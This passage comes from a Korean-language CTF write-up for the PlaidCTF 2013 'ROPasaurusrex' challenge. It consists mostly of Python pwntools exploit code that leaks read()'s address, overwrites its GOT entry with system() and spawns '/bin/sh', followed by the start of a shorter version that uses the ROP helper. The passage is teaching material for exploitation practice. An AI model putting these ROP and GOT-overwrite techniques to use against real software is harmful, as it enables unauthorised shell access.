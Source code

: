 ```python
payload += p32(0)
payload += p32(e.bss())
payload += p32(binsh_len)

# got overwrite : read() -> system()
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(read_got)
payload += p32(4)

# call func ( system("/bin/sh") )
payload += p32(read_plt)
payload += p32(dummy)
payload += p32(e.bss())

p.send(payload)

# recv read_addr (leak)
read_addr = u32(p.recv(4))
print "read_addr : " +hex(read_addr)
# calc system_addr
system_addr = read_addr - read_system_offset
print "system_addr : " + hex(system_addr)

# send "/bin/sh"
p.send(binsh)

# send system_addr
p.send(p32(system_addr))

p.interactive()
```
<img src="http://eliez3r.synology.me/assets/img/writeup/plaid_ctf_2013/ROPasaurusrex/image-20180826232159051.png" width="500px">{:.rounded.shadow}  

<br>

다음은 위 ex코드를 pwntool에 어마무시한 기능들로 다 때려박은 코드이다.

물론 아래 코드가 훨씬 간편하고 쉽겠지만,  
기본 개념들을 익히기 위해서 위코드를 먼저 확실히 이해하고 사용하는것이 좋다.

```python
from pwn import *

# prepare to exploit
binsh = "/bin/sh"
binsh_len = len(binsh)

p = remote("localhost", 7777)
#p = process('./rop')
e = ELF('./rop')
libc = e.libc
rop = ROP(e)


# read read_got leak
rop.write(1, e.got['read'], 4)

# input "/bin/sh" into bss
rop.read(0, e.bss(), binsh_len)

# got overwrite : read() -> system()
rop.read(0, e.got['read'], 4)
```